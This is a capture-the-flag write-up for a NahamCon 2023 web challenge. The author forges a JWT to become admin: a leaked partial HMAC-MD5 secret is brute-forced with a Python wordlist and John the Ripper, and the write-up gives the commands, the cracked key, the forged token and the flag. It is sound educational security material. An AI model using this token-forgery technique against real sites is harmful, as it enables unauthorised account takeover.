 >Author: @congon4tor#2334  
>  
>Enjoy some of our delicious home made marmalade!
------------------------
We are prompted to choose a username to log in. No password asked. Firstly trying admin, of course we are not allowed. So I go with my old friend `asdf`.


![Pasted image 20230615153302.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230615153302.png)
On login, it tells us that only admin can see the flag:

![Pasted image 20230616173145.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173145.png)

With how little content is on these pages, there is pretty much nothing else to consider other than editing the given cookie:
`token=eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg`
Based on the cookie having 3 sections separated by dots, I immediately recognize this as a JWT. Using jwt.io to decode:

![Pasted image 20230616173339.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173339.png)

The blue segment is a signature hashed with a secret key to prevent forgery, but this is not always used to verify. Perhaps we can just edit the Payload section so that our username is admin?
```
{
  "username": "admin"
}
```
Converting back to base64, our new token looks like this
`eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.SKkdg9_2EbXj67FcZNnXIg`

When I edit the cookie, it gives me an interesting new error:

![Pasted image 20230616173646.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616173646.png)

```
# Bad Request

Invalid signature, we only accept tokens signed with our MD5_HMAC algorithm using the secret fsrwjcfszeg*****
```

So while they are checking the token signatures, they did a bit of an oopsie and gave away most of their secret key!! Only the last 5 characters are hidden, making this secret key effectively 5 characters in length. This is something that can be brute-forced rather easily.

I used python to quickly generate a wordlist containing the known secret string, then appended all possible 5 letter combinations:
```python
fp = open("wordlist.txt", "w")

for i in range(ord('a'), ord('z') + 1):
    for j in range(ord('a'), ord('z') + 1):
        for k in range(ord('a'), ord('z') + 1):
            for l in range(ord('a'), ord('z') + 1):
                for m in range(ord('a'), ord('z') + 1):
                    fp.write('fsrwjcfszeg' + chr(i) + chr(j) + chr(k) + chr(l) + chr(m) +  "\n");

fp.close()
```

From this point, I can use my previously valid JWT for asdf, and use `John the Ripper` to brute force the secret key. John will accept the token when the signature is presented in hex, however I had trouble converting myself for some reason. This issue was resolved once I used [Sjord's jwtcrack code](https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py) to recreate my token.

```shell
$ python convert.py 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ.SKkdg9_2EbXj67FcZNnXIg'
eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFzZGYifQ#48a91d83dff611b5e3ebb15c64d9d722
```

Cracking the secret with john:

```shell
$ john jwt.txt --wordlist=wordlist.txt --format=HMAC-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-MD5 [password is key, MD5 256/256 AVX2 8x3])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
fsrwjcfszegvsyfa (?)     
1g 0:00:00:04 DONE (2023-06-16 13:39) 0.2487g/s 2472Kp/s 2472Kc/s 2472KC/s fsrwjcfszegvsxlg..fsrwjcfszegvtppv
Use the "--show --format=HMAC-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

The secret key is `fsrwjcfszegvsyfa`
Now to generate a valid signature for our forged jwt. Using the first 2 base64 encoded segments, we perform HMAC-MD5 hashing, then convert from hex back to base64:

![Pasted image 20230616174953.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616174953.png)

Finalized token:
```
eyJhbGciOiJNRDVfSE1BQyJ9.ewogICJ1c2VybmFtZSI6ICJhZG1pbiIKfQ.kpCxx3dVioNEfybFE2UBxg
```

Upon refreshing the page, we get the flag.
![Pasted image 20230616141001.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616141001.png)

`flag{a249dff54655158c25ddd3584e295c3b}`
